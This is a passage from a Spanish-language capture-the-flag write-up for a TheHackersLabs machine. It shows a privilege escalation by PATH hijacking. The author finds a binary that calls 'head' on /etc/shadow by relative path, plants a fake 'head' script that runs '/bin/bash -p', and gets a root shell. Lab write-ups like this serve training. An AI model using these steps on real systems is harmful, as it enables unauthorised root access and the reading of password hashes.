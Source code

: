 ![](assets/img/thl-writeup-offensive/offensive5_1.png)

Para entender cómo opera, ejecuto strings en el binario y filtro las cadenas relacionadas con "shadow".

```terminal
maria@TheHackersLabs-Offensive:~$ strings app | grep shadow
/usr/bin/head -n 8 /etc/shadow
head -n 8 /etc/shadow
```

El programa utiliza el comando `head` para mostrar las primeras 8 líneas de `/etc/shadow`. Noto que se realizan llamadas tanto con rutas absolutas como con rutas relativas.

Para interceptar la llamada relativa, modifico la variable de entorno PATH para que comience en mi directorio `/home/maria`, de modo que si el programa invoca el comando de manera relativa, se ejecute mi versión maliciosa.

* Modifico el PATH para que incluya mi directorio de inicio.
* Creo un script malicioso llamado `head` en `/home/maria` que ejecute Bash con privilegios.

```terminal
maria@TheHackersLabs-Offensive:~$ export PATH=/home/maria:$PATH
maria@TheHackersLabs-Offensive:~$ echo '/bin/bash -p' > head
maria@TheHackersLabs-Offensive:~$ chmod +x head
```

Al ejecutarlo el binario, el programa utiliza mi script `head` y lanza `bash -p`, lo que me proporciona una shell con privilegios de `root`.

```terminal
maria@TheHackersLabs-Offensive:~$ ./app
```

![](assets/img/thl-writeup-offensive/offensive5_2.png)
